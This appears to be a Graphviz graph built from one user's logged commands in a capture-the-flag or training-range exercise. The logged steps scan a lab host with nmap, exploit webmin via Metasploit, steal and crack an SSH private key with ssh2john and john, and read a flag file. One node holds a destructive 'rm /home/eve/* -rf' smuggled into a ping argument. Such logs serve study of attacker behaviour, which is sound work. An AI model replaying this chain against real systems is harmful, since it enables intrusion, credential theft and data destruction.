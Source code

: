 // creating graph for user: 87
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 A0 M0 A1 "]
	1 [label="nmap 172.18.1.5 V0 "]
	2 [label="nmap -p- 172.18.1.5 V0 "]
	3 [label="ssh 172.18.1.5 A16 "]
	4 [label="nmap -A 172.18.1.5 V0 "]
	5 [label="msfconsole A2 M2 "]
	6 [label="help U"]
	7 [label="search webmin A3 M3 "]
	8 [label="use 3 A4 "]
	9 [label="show A5 "]
	10 [label="show all A5 "]
	11 [label="show options A5 M5 "]
	12 [label="set RHOSTS 172.18.1.5 A6 M6 "]
	13 [label="show options V5 "]
	14 [label="exploit A8 M8 "]
	15 [label="ip U"]
	16 [label="ip address U"]
	17 [label="set LHOST 10.1.135.83 V6 "]
	18 [label="exploit V8 "]
	19 [label="search shell_to_meterpreter A3 "]
	20 [label="use 0 A4 "]
	21 [label="sessions -l U"]
	22 [label="show options V5 "]
	23 [label="set SESSION 2 A6 "]
	24 [label="run V8 "]
	25 [label="sessions 2 U"]
	26 [label="sessions - U"]
	27 [label="sessions 2 U"]
	28 [label="search webmin V3 "]
	29 [label="use 3 A4 "]
	30 [label="exploit V8 "]
	31 [label="ping rm /home/eve/* -rf U"]
	32 [label="logout U"]
	33 [label="ping 10.1.18.22 U"]
	34 [label="ping 10.1.18.22 U"]
	35 [label="exit U"]
	36 [label="show options V5 "]
	37 [label="ssh 172.18.1.5 A16 "]
	38 [label="ls ~/.ssh A10 A16 "]
	39 [label="ssh-keygen A16 "]
	40 [label="ls A10 "]
	41 [label="ls ~/.ssh A10 A16 "]
	42 [label="cd ~/.ssh A16 "]
	43 [label="ls A10 "]
	44 [label="cat id_rsa.pub A12 M12 A17 "]
	45 [label="ssh eve@172.18.1.5 A16 M16 "]
	46 [label="sessions 5 U"]
	47 [label="ssh eve@10.1.17.4 V16 "]
	48 [label="ls A10 "]
	49 [label="ls -la A10 "]
	50 [label="cd .ssh A16 "]
	51 [label="ls A10 "]
	52 [label="cat id_rsa V12 "]
	53 [label="ls A10 "]
	54 [label="vim key U"]
	55 [label="ssh eve@10.1.17.4 cat ~/.ssh/id_rsa V16 "]
	56 [label="ssh eve@172.18.1.5 cat ~/.ssh/id_rsa V16 "]
	57 [label="ssh eve@172.18.1.5 cat '~/.ssh/id_rsa' V16 "]
	58 [label="ssh eve@172.18.1.5 cat '~/.ssh/id_rsa' > key V16 "]
	59 [label="ls A10 "]
	60 [label=".ssh2john.py A14 A16 "]
	61 [label="./ssh2john.py A14 A16 "]
	62 [label="./ssh2john.py key > crack.txt A14 A16 "]
	63 [label="cat crack.txt A1 A9 A11 A12 A17 "]
	64 [label="ls A10 "]
	65 [label="cd Desktop/ U"]
	66 [label="ls A10 "]
	67 [label="ls -la A10 "]
	68 [label="cd .. U"]
	69 [label="ls A10 "]
	70 [label="john crack.txt A14 "]
	71 [label="cd /usr/share U"]
	72 [label="ls A10 "]
	73 [label="cd wordlists/ U"]
	74 [label="ls A10 "]
	75 [label="john crack.txt --wordlist=/usr/share/wordlists/rockyou.txt A14 M14 "]
	76 [label="ssh eve@10.1.17.4 V16 "]
	77 [label="exit U"]
	78 [label="ls A10 "]
	79 [label="cd top-secret/ U"]
	80 [label="ls A10 "]
	81 [label="cat flag.txt A17 M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	rankdir=LR
}
